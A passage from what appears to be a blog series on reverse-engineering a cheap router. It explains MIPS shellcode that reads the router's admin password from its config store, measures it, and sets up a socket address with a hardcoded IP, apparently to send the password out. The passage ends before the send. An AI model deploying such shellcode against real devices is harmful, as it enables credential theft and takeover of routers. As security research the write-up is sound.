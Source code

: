 ![printf.png]({{site.baseurl}}/assets/images/analysing_a_dirt_cheap_router_part_4/printf.png)

## Full Admin Password Exploit Shellcode

Now we have tested the decoder and the fix shellcodes, we can move on to creating a larger payload.

### Breakdown

The input parameters are as follows:

| Register | Value |
| - | - |
| *$s0* | Address of *strlen* function |
| *$s1* | Address of *0x1010200* (config ID of admin password - refer to part 3) |
| *$s2* | Address we will use to store the admin password |
| *$s3* | Address of *socket* function |

- First, we call `config_get(0x1010200, buffer)`, remember the the instruction after `jalr` is taken before the jump takes place (thanks branch delay slot):

```python
lw $a0, ($s1);      /* s1 contains address of 0x1010200 */
lui $v0, 0x8000;
or $v0, 0x89e4;
jalr $v0;           /* config_get(0x1010200 (*0x80236c4c), pwd_buffer (0x801d3754)) */
move $a1, $s2;      /* s2 contains pwd buffer address */
```

- Next, call `strlen` on the buffer containing the admin password:

```python
jalr $s0;           /* len = strlen(pwd_buffer (0x801d3754)) */
move $a0, $s2;      /* s2 contains pwd buffer address */
```

- Store the length in *$s0*, and construct the *sockaddr* containing the port and IP we will use:

```python
move $s0, $v0;      /* v0 contains length of password */
/* create sockaddr stuff and put into t0 */
lui $v0, 0x800f;
or $v0, $v0, 0x9528;
lw $v0, ($v0);      /* load value of hardcoded_afinet into v0 */
lui $t0, 0x802a;
or $s1, $t0, 0xbf10;
sw $v0, ($s1);      /* save hardcoded_afinet value to address of sockaddr */
addiu $t0, $s1, 0x4;
lui $v0, 0x02bc;
or $v0, $v0, 0xa8c0;
sw $v0, ($t0);      /* save hardcoded IP address to sockaddr + 4 */
```
